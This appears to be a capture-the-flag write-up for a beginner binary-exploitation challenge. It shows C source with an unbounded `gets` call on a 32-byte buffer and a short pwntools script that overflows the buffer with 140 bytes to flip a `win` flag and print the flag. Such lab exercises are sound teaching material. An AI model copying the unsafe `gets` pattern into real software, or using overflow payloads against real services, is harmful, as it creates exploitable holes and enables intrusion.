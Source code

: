 # Binexp-0

> **Description:** River Flows In You~
>
> **Remote Instance:** nc 54.255.236.13 9000

### Basic File Checks

Perform basic file checks to know how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-0 
binexp-0: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=b177222eda27e1540b74b4416c146500a146ae66, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

### Static Code Analysis

By looking at the source code, the `gets` function does not limit the input size, which is bound to exceed the buffer limit in a Buffer Overflow attack.

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	int win;
	char buf[32];
	char flag[100];

	win = 0;

	FILE *f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("'flag.txt' not found.");
		exit(0);
	}

	fgets(flag, 100, f);
	gets(buf);

	if(win != 0) {
		printf("%s\n", flag);
	} else {
		puts("You failed!\n");
	}
}
```

### Solution

We can overwrite the `win` variable by inputting a series of characters that exceed the size of the buffer.

Using pwntools to automate the process:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./binexp-0')
rop = ROP(elf)

p = elf.process()
#p = remote('54.255.190.215', 9000)

def exploit():

    padding = b'A'*140

    payload = padding

    p.sendline(payload)

    p.interactive()

def main():
	exploit()

if __name__ == "__main__":
	main()
```

